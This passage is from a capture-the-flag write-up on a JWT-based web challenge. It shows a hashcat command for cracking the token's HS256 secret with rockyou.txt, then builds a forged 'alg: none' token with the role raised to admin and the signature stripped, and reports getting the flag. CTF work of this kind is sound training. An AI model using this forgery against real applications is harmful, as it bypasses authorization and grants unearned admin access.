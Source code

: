 I tried to crack it using `hashcat` but when it took a couple of minutes i was sure that isn't the intended way.

```
hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzM0NTE5ODMwOTA2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS85Ni4wLjQ2NjQuNDUgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzM0NTE5ODMxfQ.9fE8NwnH-Ut1Z1pK2FIaODl6NseezzISLQcNkBBVOHY  rockyou.txt
```

The challenge is about vulnerable components of the application. So that means the JWT component is vulnerable to some kind of authorization bypass. The JWT token has a `role` key that specifies the role of the logged in user.

The first attack to try with JWT tokens is to change the encryption algorithm value from `HS256` to `none`, delete the signature part of the token, and then use the token and hope for the JWT library allows **unsafe** tokens.

JWT tokens are **Base64 URL** encoded. And the Header, Payload, and Signature are divided by a dot `.`. So modify each part separately, and then connect them with a dot.

Here is the modified JWT token.

```json
{"typ":"JWT","alg":"none"}
```

and here is the Base64 url encoded version of it

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
```

```json
{"auth":1734521715429,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0","role":"admin","iat":1734521715}
```

```
eyJhdXRoIjoxNzM0NTIyNDc4NjA2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEzMi4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzEzMi4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM0NTIxNzE1fQ
```

Which gives us the following token. (don't forget the dots).

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM0NTIyNDc4NjA2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEzMi4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzEzMi4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM0NTIxNzE1fQ.
```

And we got the flag:

![](assets/ctf_jauth_flag.png)
